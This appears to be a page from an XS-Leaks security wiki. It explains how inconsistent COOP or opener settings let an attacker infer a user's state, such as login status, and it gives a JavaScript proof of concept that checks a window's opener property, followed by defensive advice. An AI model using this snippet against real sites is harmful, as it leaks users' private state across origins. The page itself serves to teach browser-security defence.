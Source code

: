 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its opener property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply checking its window reference. 

## Code Snippet
The below snippet demonstrates how to detect whether `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with the value other than `unsafe-none`. This is can be done with both iframes and new windows.

```javascript
// define the vulnerable URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // open the url in a new tab to see if win.opener was affected by COOP
    // or set to null
    win = open(url);
  }else{
    // create an iframe to detect whether the opener is defined
    // won't work for COOP detection, or if a page has implemented framing protections
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // redirect the iframe to the vulnerable URL
    win = open(url, "xsleaks");
  }
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    // check the opener property of the newly opened window
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);

```

## Defense

The mitigation of this XS-Leak is to be consistent across diferent pages; set it to the same value in all pages using COOP. Using JavaScript to set `opener` to `null` may have edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.
